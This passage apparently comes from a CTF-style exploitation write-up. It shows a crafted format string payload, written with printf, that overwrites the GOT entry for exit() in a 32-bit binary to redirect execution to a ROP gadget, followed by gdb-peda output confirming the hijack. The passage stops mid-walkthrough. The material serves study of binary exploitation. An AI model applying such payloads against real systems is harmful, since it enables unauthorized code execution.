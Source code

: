 I set a breakpoint at 0x080486f2 which was the call to exit() in main(). Using a bit of math, I adjusted the field widths so that exit's reference in the GOT would be overwritten to 0x804867e: 

```
printf '\x54\x9a\x04\x08\x55\x9a\x04\x08\x56\x9a\x04\x08-%%113c%%16$hn-%%263c%%17$hn-%%1661c%%18$hn' > in
```

I ran it within gdb and once the breakpoint got triggered at the call to exit(), I stepped into the function and saw that it was now about to execute the first gadget: 

```
Breakpoint 1, 0x080486f2 in main ()
gdb-peda$ si
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x40185ff4 --> 0x15fd7c 
ECX: 0xbfe1ba28 --> 0x401864e0 --> 0xfbad2a84 
EDX: 0x63 ('c')
ESI: 0x0 
EDI: 0x0 
EBP: 0xbfe22fb8 --> 0xbfe23038 --> 0x0 
ESP: 0xbfe1ba6c --> 0x80486f7 (nop)
EIP: 0x80483c0 (<exit@plt>: jmp    DWORD PTR ds:0x8049a54)
EFLAGS: 0x200282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80483b0 <__gmon_start__@plt>:  jmp    DWORD PTR ds:0x8049a50
   0x80483b6 <__gmon_start__@plt+6>:    push   0x10
   0x80483bb <__gmon_start__@plt+11>:   jmp    0x8048380
=> 0x80483c0 <exit@plt>:    jmp    DWORD PTR ds:0x8049a54
 | 0x80483c6 <exit@plt+6>:  push   0x18
 | 0x80483cb <exit@plt+11>: jmp    0x8048380
 | 0x80483d0 <__libc_start_main@plt>:   jmp    DWORD PTR ds:0x8049a58
 | 0x80483d6 <__libc_start_main@plt+6>: push   0x20
 |->   0x804867e <bf+402>:  add    esp,0x24
       0x8048681 <bf+405>:  pop    ebx
       0x8048682 <bf+406>:  pop    ebp
       0x8048683 <bf+407>:  ret
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xbfe1ba6c --> 0x80486f7 (nop)
0004| 0xbfe1ba70 --> 0x0 
0008| 0xbfe1ba74 --> 0xbfe1ba80 --> 0x8049a54 --> 0x804867e (<bf+402>:  add    esp,0x24)
0012| 0xbfe1ba78 --> 0x7530 ('0u')
0016| 0xbfe1ba7c --> 0x0 
0020| 0xbfe1ba80 --> 0x8049a54 --> 0x804867e (<bf+402>: add    esp,0x24)
0024| 0xbfe1ba84 --> 0x8049a55 --> 0x80080486 
0028| 0xbfe1ba88 --> 0x8049a56 --> 0xcd800804 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080483c0 in exit@plt ()
```

Stepping through further, I executed the add and two pop instructions and examined the stack again:

